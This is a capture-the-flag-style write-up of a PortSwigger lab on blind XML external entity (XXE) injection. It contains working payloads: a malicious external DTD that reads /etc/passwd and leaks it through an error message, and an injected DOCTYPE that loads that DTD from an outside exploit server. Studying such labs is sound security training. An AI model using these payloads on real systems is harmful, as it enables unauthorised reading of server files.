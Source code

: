 ```yaml
---
title: 'Lab: Exploiting blind XXE to retrieve data via error messages'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE/External Malicious Server"
---
```


# Lab: Exploiting blind XXE to retrieve data via error messages
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
* Goal: To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.


## Recon
This is very similar to the previous lab(Exploiting blind XXE to exfiltrate data using a malicious external DTD)
1. Complete Malicious Server Payload and Store
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
    %eval;
    %exfil;
    ```
2. Complete Intercept Packet Payload
    Intercept the packet that you click `Check stock` button in arbitrary product page.
    Copy and paste your malicious server URL to `YOUR-DTD-URL`, e.g. `https://exploit-{YOUR-RANDOM-URL}.exploit-server.net/exploit`
    
    ```xml
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
3. Send packet!!!


## Exp
:::spoiler Malicious Server Payload
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
:::
:::spoiler Intercept Packet Payload
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad100a2040f8d8e821cce250179002c.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/SJPESjIEh.png)

---
![](https://hackmd.io/_uploads/rJjHSjLNn.png)
:::